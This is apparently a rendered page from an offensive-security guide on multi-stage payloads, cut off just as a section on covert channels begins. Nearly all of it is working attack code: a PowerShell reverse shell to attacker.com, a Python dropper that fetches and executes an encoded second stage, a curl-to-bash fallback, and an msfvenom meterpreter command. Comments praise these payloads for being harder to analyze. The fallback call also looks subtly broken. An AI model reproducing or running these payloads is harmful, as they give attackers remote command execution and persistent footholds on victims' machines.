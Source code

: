 ```bash
}

# Establish reverse shell
$client = New-Object System.Net.Sockets.TCPClient('attacker.com',4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
EOF

# Python multi-stage payload
cat > dropper.py << 'EOF'
#!/usr/bin/env python3
import urllib.request
import base64
import subprocess

# Download and execute stage 2
try:
    response = urllib.request.urlopen('http://attacker.com/stage2_encoded')
    stage2 = base64.b64decode(response.read()).decode()
    exec(stage2)
except:
    # Fallback to alternative method
    subprocess.run(['curl', '-s', 'http://backup.attacker.com/fallback.sh', '|', 'bash'], shell=True)
EOF

# Staged msfvenom payload
# Stage 1: Small loader
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker.com LPORT=4444 -f exe -o stage1.exe

# Stage 2: Full meterpreter payload downloaded after connection
# Automatically handled by Metasploit framework

# Why multi-stage payloads are advantageous:
# - Smaller initial payload size
# - Modular functionality loading
# - Adaptive capability based on environment
# - Harder to analyze complete functionality
# - Fallback mechanisms for reliability
```

### **Covert Channel Communication**
